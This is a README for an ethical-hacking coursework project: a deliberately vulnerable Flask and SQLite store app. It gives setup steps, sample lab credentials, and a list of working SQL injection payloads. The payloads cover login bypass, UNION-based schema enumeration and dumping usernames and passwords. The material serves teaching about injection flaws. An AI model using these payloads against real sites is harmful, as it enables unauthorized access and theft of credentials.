 # F20AN-CW1  

### SQL Injection Project – Ethical Hacking Coursework  

This project demonstrates SQL injection vulnerabilities as part of an ethical hacking course.  

## Contributors  
- Aryan R  
- Patson D  
- Abdirahim W
  
## Platform Screen Shots
### Home Page  
![Home Page](images/homePage.jpeg)

### Log In Page  
![Log In Page](images/logIn.jpeg)

### Admin Panel Interface  
![Admin Panel](images/adminPanel.jpeg)

### Inventory Page  
![Inventory Page](images/inventory.jpeg)


## Setup & Execution  

1. **Install Dependencies**  
   Ensure you have a Python environment set up, then install the required dependencies:  
   ```bash
   pip install -r requirements.txt 
   ```

2. **Set Up the Database**  
Navigate to the 'flask app' directory and run:
    ```bash
   python setupDatabase.py
   ```
   The following output should be generated during its first execution:
   ```bash
    Users added
    Admin user and test user created.

    admin creds: 
            u:patson
            p:dubai2020!
    test user creds: 
            u:sharafdg
            p:passsw0rd!
                      
    Stock items added.

    Database setup complete.
   ```
   This initializes the SQL database.

3. **Run the Application**  
Start the Flask app: 
    ```bash
    python myApp.py
    ```
    Then, open your browser and go to:  
    http://127.0.0.1:5000/

4. **Example Exploits (for SQLite):**

   - **Bypass login with comment (login page)**
     ```
     admin'-- 
     ```

   - **Bypass login with OR (login page)**
     ```
     admin' OR '1' = '1
     ```

   - **Check if injection is possible (stock page)**
     ```
     ' UNION SELECT 1,2,3,4,5; --
     ```

   - **Get SQLite version (stock page)**
     ```
     ' UNION SELECT sqlite_version(),2,3,4,5; --
     ```

   - **Show tables (stock page)**
     ```
     ' UNION SELECT name, type, 3,4,5 FROM sqlite_master; --
     ```

   - **Show SQL query with table info (stock page)**
     ```
     ' UNION SELECT sql, 2,3,4,5 FROM sqlite_master WHERE type='table' AND name='users'; --
     ```

   - **Dump all users (stock page)**
     ```
     %' UNION SELECT username, password, 1, 2, 3 FROM users; --
     ```

   - **List all tables and SQL schema (stock page)**
     ```
     ' UNION SELECT type, name, tbl_name, rootpage, sql FROM sqlite_master; --
     ```

---
This project is intended for the f20an coursework.